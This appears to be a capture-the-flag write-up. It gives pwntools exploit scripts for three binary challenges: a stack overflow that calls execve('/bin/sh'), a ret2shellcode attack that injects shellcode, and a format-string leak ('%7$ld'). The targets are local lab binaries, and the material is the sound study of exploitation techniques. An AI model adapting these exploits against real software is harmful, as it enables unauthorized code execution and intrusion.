 ```python
from pwn import *

context(os='linux', arch='i386')
io = ...
e = ELF('./backdoor')

io.sendline() # getchar()
payload  = cyclic(0x28 + 4)
payload += flat([
    e.sym[b'execve'],           # `vuln` 返回地址
    0,                          # `execve` 返回地址
    next(e.search(b'/bin/sh')), # `execve` 参数 `pathname`
    0,                          # `execve` 参数 `argv`
    0                           # `execve` 参数 `envp`
])
io.sendline(payload)

io.interactive()
```

## ez_shellcode

```python
from pwn import *
context.terminal = ['wt.exe','wsl']
context.log_level = 'debug'
context.arch = 'amd64'
p = process('./pwn')
p.recvuntil("age")
p.sendline('130')
p.recvuntil("you :\n")
buf_addr = int(p.recvuntil('\n').decode(), 16)
log.success(buf_addr)
log.success(type(buf_addr))
payload = asm(shellcraft.sh()).ljust(0x68,b'a') + p64(buf_addr)
p.recvuntil("say")
p.send(payload)
p.interactive()
```

很简单的ret2shellcode

## leak_sth

```python
from pwn import *
context.terminal = ['tmux', 'split-window', '-h']
context.log_level = 'debug'
p = gdb.debug("./f")
p.recvuntil("name?")
p.send("%7$ld")

p.recvuntil("name:\n")
num = int(p.recvuntil('G')[:-1])

p.recvuntil("number")
p.send(str(num))

p.interactive()
```
